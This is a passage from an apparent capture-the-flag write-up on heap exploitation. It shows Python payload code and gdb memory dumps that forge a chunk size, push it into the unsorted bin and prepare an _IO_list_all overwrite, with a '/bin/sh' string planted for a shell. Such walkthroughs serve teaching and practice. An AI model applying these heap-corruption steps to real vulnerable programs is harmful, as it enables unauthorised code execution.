 Well , its time to trigger overwrite of **IO\_list\_all** pointer by mallocing 2 chunks.

The third call to malloc should return our fake chunk.

```py
    #Get stuff back from unsorted bin
    add("third","aaaa")
    add("third","bbbb")
    #Finally get back our fake chunk and overwrite the size of the next chunk with 0x91
    payload = 'f'*8 + p64(0)*(0x500-0x8)/8 + p64(0) + p64(0x91)
    add("third",payload)

```

With this , we successfully faked the size of a valid chunk.

```sh
0x555555759e60:	0x0000000000000000	0x0000000000000091
0x555555759e70:	0x0000000a67676767	0x0000000000000001

```

Looks like our fake chunk is in second user's area. We sign_out and sign_in back into second user.

We free the 0x91 chunk now. 

```py
    sign_out()
    sign_in("second","second")
    delete(4) 

```

Cool , its a part of unsorted bin now.

```sh

0x555555759e60:	0x0000000000000000	0x0000000000000091
0x555555759e70:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555759e80:	0x0000000000000000	0x0000000000000000

$1 = {
  mutex = 0x0,
  flags = 0x1,
  fastbinsY = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0},
  top = 0x55555575a880,
  last_remainder = 0x0,
  bins = {0x555555759e60, 0x555555759e60,......}

```

The aim is to get a 0x61 sized unsorted bin for easy IO_list_all overwrite.

For that , we need to do some additional work , we sign back in to first user and edit the chunk above our fake chunk to make it's size 0x61 this time.

```py
    
    sign_out()
    sign_in("first_user","first_user")
    payload = "llll"+"\x00"*1260 + "/bin/sh\x00" + p64(0x61)
    edit('y',11,payload)  #our fake chunk is first_user's 11th chunk 

```

